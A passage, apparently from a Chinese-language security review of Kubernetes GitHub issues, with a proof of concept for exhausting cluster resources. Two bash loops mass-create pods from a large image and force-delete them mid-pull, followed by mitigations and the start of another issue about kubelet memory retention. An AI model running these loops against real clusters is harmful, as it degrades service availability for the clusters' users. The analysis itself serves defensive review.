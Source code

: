 **概念验证（Proof of Concept）：**

攻击者可以按照以下步骤重复操作，导致集群资源耗尽：

1. **准备一个大尺寸的镜像**（例如，数GB大小），并确保该镜像未缓存于集群节点上。

2. **编写脚本**，持续创建使用此大镜像的Pod。

   ```bash
   #!/bin/bash
   for i in {1..100}; do
     kubectl run attack-pod-$i --image=large-image:latest --restart=Never
   done
   ```

3. **在镜像拉取过程中立即删除这些Pod**，但由于镜像尚未拉取完成，Pod会一直处于Terminating状态。

   ```bash
   for i in {1..100}; do
     kubectl delete pod attack-pod-$i --grace-period=0 --force
   done
   ```

4. **重复上述过程**，导致大量Pod处于Terminating状态，持续占用资源。

**防范措施：**

- **实施资源配额（Resource Quotas）**：限制单个用户或命名空间可以使用的资源量，防止滥用。

- **优化镜像拉取策略**：采用镜像预拉取机制，或者设置合理的镜像拉取超时时间。

- **加强权限控制**：限制哪些用户有权创建和删除Pod，最小化特权。

- **监控集群状态**：部署监控工具，及时发现异常的Pod创建和删除行为，采取措施。

综上所述，该Issue存在被攻击者利用的风险，可能导致集群资源耗尽，影响服务的可用性，符合分配CVE编号的条件，CVSS评分在高危以上。

---

## Issue #123275 Persistent Thread and Memory Allocation by Kubelet Post-Workload

- Issue 链接：[#123275](https://github.com/kubernetes/kubernetes/issues/123275)

### Issue 内容

#### What happened?

`Kubelet` does not release threads and their associated memory allocations after handling high workloads, leading to inefficient resource usage and potential node performance degradation.

#### What did you expect to happen?

Expected kubelet to free up threads and memory resources once the workload decreases, returning to baseline resource usage levels.

#### How can we reproduce it (as minimally and precisely as possible)?
